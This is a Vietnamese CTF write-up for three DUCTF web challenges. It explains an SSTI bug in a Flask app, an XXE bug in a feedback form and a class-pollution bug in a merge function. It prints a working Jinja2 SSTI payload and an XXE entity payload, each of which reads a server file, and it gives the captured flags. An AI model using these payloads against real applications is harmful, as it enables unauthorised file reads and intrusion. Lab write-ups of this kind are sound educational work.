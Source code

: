 # parrot the emu

![image](https://hackmd.io/_uploads/B1i3l6dPA.png)
Đây là 1 challenge về SSTI đơn giản khi userinput được đưa vào hàm render template string mà không có bất kỳ filter hay sanitize nào. 

Bài web này sử dụng python flask cho nên template engine là Jinja2.

Payload: `{{ get_flashed_messages.__globals__.__builtins__.open("flag").read() }}`

Flag: `DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}`

# zoo feedback form

![image](https://hackmd.io/_uploads/H1KP-pOvC.png)
Đây là 1 challenge về XXE, khi web sử dụng biến feedback mà ta có thể kiểm soát mà không có bất kỳ loại filter hay sanitize nào và đưa vào biến xmlData rồi request sang `/`. 
Route `/` cũng chỉ xử lý dữ liệu XML ta cung cấp thôi.
![image](https://hackmd.io/_uploads/Byq7M6_P0.png)

Payload: 
```xml=
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE feedback [<!ENTITY test SYSTEM 'file:///app/flag.txt'>]>
<root>
<feedback>&test;</feedback>
</root>
```

![image](https://hackmd.io/_uploads/S1IcM6OvR.png)

Flag: `DUCTF{emU_say$_he!!0_h0!@_ci@0}`

# co2
Ở app chính có 11 route, rất là nhiều và khiến chúng ta có thể bị nhiễu. Nhưng mà mình chú ý đến file `utils.py` của app. 

![image](https://hackmd.io/_uploads/BJ_L7TOvA.png)

Hàm merge kia sẽ gây ra lỗ hổng Class Pollution (giống prototype pollution) khi mình có thể điều khiển được các giá trị của biến và tên object. 

![image](https://hackmd.io/_uploads/ByI6m6dv0.png)
Giống y hệt poc của HackTrick. 

![image](https://hackmd.io/_uploads/BJpxNauDA.png)
Hàm merge sẽ được gọi khi mình gửi feedback lên và redirect sang save_feedback. 

![image](https://hackmd.io/_uploads/ryBhB6dP0.png)
Trong phần Creating class property default value to RCE, có đoạn payload chúng ta gần để gán lại biến flag thành true và lấy flag.
